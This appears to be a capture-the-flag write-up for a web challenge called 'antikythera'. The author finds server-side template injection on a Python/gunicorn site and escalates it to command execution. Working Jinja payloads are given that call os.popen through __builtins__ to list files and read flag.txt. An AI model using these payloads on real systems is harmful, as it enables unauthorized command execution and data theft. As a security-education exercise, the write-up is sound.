









# antikythera

> Lost in the labyrinthine calculations of planetary motion, I stumbled upon an anomaly. Ancient Greek symbols, not our modern equations, whispered of celestial mechanics. Driven by a scientist's curiosity, I cracked their cryptic code. The unearthed knowledge, a testament to their forgotten ingenuity, fueled the creation of the "Greek Astronomical Calculator." This isn't just a tool for prediction; it's a portal to a bygone era's uncanny understanding of the cosmos
> 
> http://antikythera.martiansonly.net
> 
> Author: bl4ckp4r4d1s3

Solution:

No source file(s) was given. Let's check the challenge site...

Oh, displays via iframe, let's grab the link and access that directly instead.

Hmm, nothing striking in the source.

Let's try to submit `'` to initiate an error with SQL.

Oh, it only displayed the single quote back.

How about SSTI focusing on Python since it showed `gunicorn` as the webserver being used...

Oh, that worked!

Let's try `{{config.items()}}`

Hmm, it's not hidden there. Time to RCE!

Let's display the builtins as a test...`{{ self.__init__.__globals__.__builtins__ }}`

Cool, we can use `__import__`, let's list the files via `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}`!

There's the target file! Time to read it via `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}`!!

Boom!

Flag: `shctf{SSTI_1s_m0r3_fun_!_Wh3n_1t_b3c0m3s_RC3!}`

